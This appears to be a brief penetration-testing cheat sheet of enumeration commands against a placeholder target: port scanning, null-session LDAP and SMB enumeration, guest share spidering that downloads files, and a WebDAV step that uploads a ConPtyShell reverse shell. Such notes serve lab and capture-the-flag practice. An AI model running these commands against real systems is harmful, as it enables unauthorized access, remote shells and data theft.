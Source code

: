 #### Open ports
```
rustscan -a $ip --ulimit 5000
```

#### IIS Webdav
```
cadaver $ip
upload conptyshell
```

#### LDAP
```
nxc ldap $ip -u '' -p '' -M get-desc-user
```

#### enum4linux-ng
```
enum4linux-ng -A $ip
```

#### nxc
```
nxc smb $ip -u 'guest' -p '' --spider C\$ --pattern txt
nxc smb $ip -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
nxc smb $ip -u 'guest' -p '' --users
```